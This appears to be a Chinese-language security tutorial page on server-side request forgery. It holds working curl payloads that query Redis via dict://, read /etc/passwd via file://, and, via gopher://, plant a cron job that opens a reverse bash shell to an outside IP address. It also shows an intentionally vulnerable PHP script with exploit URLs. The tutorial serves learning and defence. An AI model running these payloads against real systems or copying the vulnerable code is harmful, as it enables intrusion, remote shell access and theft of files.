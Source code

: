 SSRF
####


* SSRF(Server-side Request Forge, 服务端请求伪造)
* 由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务

SSRF的危害::

    扫内网
    向内部任意主机的任意端口发送精心构造的Payload
    DOS攻击（请求大文件，始终保持连接Keep-Alive Always）
    攻击内网的web应用，主要是使用GET参数就可以实现的攻击（比如struts2，sqli等）
    利用file协议读取本地文件等

本地漏洞利用
============

dict protocol (操作Redis)::

    $ curl -vvv 'dict://127.0.0.1:6379/info'

file protocol (任意文件读取)::

    $ curl -vvv 'file:///etc/passwd'

gopher protocol (一键反弹Bash)::

    # * 注意: 链接使用单引号，避免$变量问题
    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'


远程漏洞利用
============

实例1
-----

漏洞代码testssrf.php::

    // 未作任何SSRF防御
    <?php
    function curl($url){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_HEADER, 0); 
        curl_exec($ch);
        curl_close($ch); 
    }
    $url = $_GET['url'];
    curl($url);
    ?>

漏洞利用1-file协议读取文件::

    请求url:
    http://localhost/testssrf.php?url=file://C://folder/file.txt

.. image:: /images/safety/vulnerabilitys/ssrf_file1.png

漏洞利用1-dict协议查看端口开放::

    请求url:
    http://localhost/testssrf.php?url=dict://127.0.0.1:80


.. image:: /images/safety/vulnerabilitys/ssrf_dict1.png








